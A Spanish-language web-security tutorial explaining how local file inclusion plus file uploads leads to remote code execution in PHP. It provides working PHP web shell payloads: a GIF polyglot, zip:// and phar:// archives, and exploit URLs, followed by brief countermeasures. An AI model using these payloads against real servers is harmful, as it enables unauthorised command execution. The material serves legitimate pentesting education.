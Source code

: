 ```yaml
---
title: LFI y Subida de Archivos
date: 2025-06-07 11:00:00 +0000
categories: [Web Security, Pentesting]
tags: [LFI, file-upload, php, web-shells, penetration-testing]
image: 
    path: /assets/img/posts/lfi-file-upload/lfi-banner.png 
    alt:  cabecera
description: >
  Explotando Vulnerabilidades de Inclusión Local
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


La **inclusión local de archivos (LFI)** combinada con funcionalidades de subida de archivos representa una de las técnicas más efectivas para lograr **ejecución remota de código (RCE)** en aplicaciones web. En este post exploraremos diferentes métodos para explotar estas vulnerabilidades.

---

## Introducción a LFI y Subida de Archivos

Las funcionalidades de subida de archivos son omnipresentes en las aplicaciones web modernas, ya que los usuarios normalmente necesitan configurar sus perfiles y el uso de la aplicación web subiendo sus datos. Para los atacantes, la capacidad de almacenar archivos en el servidor back-end puede extender la explotación de muchas vulnerabilidades, como las vulnerabilidades de inclusión de archivos.

---

### Funciones Vulnerables por Lenguaje

Para que este ataque funcione, la función vulnerable debe tener capacidades de **ejecución de código**. Las siguientes funciones permiten ejecutar código con inclusión de archivos:

| Lenguaje | Función | Leer Contenido | Ejecutar | URL Remota |
|----------|---------|----------------|----------|------------|
| **PHP** | `include()/include_once()` | ✅ | ✅ | ✅ |
| **PHP** | `require()/require_once()` | ✅ | ✅ | ❌ |
| **NodeJS** | `res.render()` | ✅ | ✅ | ❌ |
| **Java** | `import` | ✅ | ✅ | ✅ |
| **.NET** | `include` | ✅ | ✅ | ✅ |

---

## Método 1: Subida de Imagen Maliciosa

### Creando la Imagen Maliciosa

El primer paso es crear una imagen maliciosa que contenga código PHP web shell pero que aún parezca y funcione como una imagen normal.

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> **Nota:** Utilizamos una imagen GIF porque sus magic bytes son fácilmente tipeables (caracteres ASCII), mientras que otras extensiones tienen magic bytes en binario que necesitarían ser URL encoded.
{: .prompt-notice}

### Subiendo el Archivo

Una vez creado nuestro archivo malicioso, necesitamos subirlo a la aplicación web. Típicamente esto se hace a través de formularios de perfil o configuración.

### Obteniendo la Ruta del Archivo

Después de subir nuestro archivo, necesitamos conocer la ruta donde se almacenó. En la mayoría de casos, especialmente con imágenes, podemos obtener acceso a nuestro archivo y conseguir su ruta desde su URL.

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

### Explotación

Con la ruta del archivo en mano, solo necesitamos incluir el archivo subido en la función vulnerable LFI:

```
http://target.com/vulnerable.php?file=./profile_images/shell.gif&cmd=id
```

---

## Método 2: Wrapper ZIP

### Creando el Archivo ZIP

Esta técnica utiliza los wrappers de PHP para ejecutar código PHP. Aunque este wrapper no está habilitado por defecto, puede funcionar en ciertos casos específicos.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```

### Explotación con Wrapper ZIP

Una vez subido el archivo shell.jpg, podemos incluirlo usando el wrapper `zip://` y referenciar archivos dentro de él con `#`:

```
http://target.com/vulnerable.php?file=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

---

## Método 3: Wrapper PHAR

### Creando el Archivo PHAR

El wrapper `phar://` ofrece otra alternativa para lograr ejecución de código. Primero creamos un script PHP:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```

### Compilación y Preparación

```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```


### Explotación con PHAR

```
http://target.com/vulnerable.php?file=phar://./profile_images/shell.jpg/shell.txt&cmd=id
```

---

## Contramedidas y Prevención

### Validación Estricta
- Validar tanto la extensión como el contenido del archivo
- Implementar lista blanca de tipos MIME permitidos
- Verificar magic bytes de archivos

### Aislamiento de Archivos
- Almacenar archivos subidos fuera del directorio web
- Usar directorios con permisos restrictivos
- Implementar naming schemes aleatorios

### Sanitización de Entradas
- Validar y sanitizar todas las entradas del usuario
- Usar rutas absolutas en lugar de relativas
- Implementar controles de acceso adecuados

---

## Conclusiones

La combinación de vulnerabilidades LFI con funcionalidades de subida de archivos puede resultar en **ejecución remota de código**, incluso cuando la funcionalidad de subida no es vulnerable por sí misma. El **primer método** (imagen maliciosa) es el más confiable y debería funcionar en la mayoría de casos con la mayoría de frameworks web.

Los métodos de **ZIP** y **PHAR** deben considerarse como alternativas cuando el primer método no funciona, ya que requieren configuraciones específicas de PHP.

> **Importante:** Existe otro ataque LFI/uploads obsoleto que puede ocurrir si la subida de archivos está habilitada en las configuraciones de PHP y la página phpinfo() está expuesta. Sin embargo, este ataque no es muy común ya que tiene requisitos muy específicos (LFI + uploads habilitados + PHP antiguo + phpinfo() expuesto).
{: .prompt-warning}

---

### Referencias

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PHP Wrappers Documentation](https://www.php.net/manual/en/wrappers.php)
- [Local File Inclusion Techniques](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)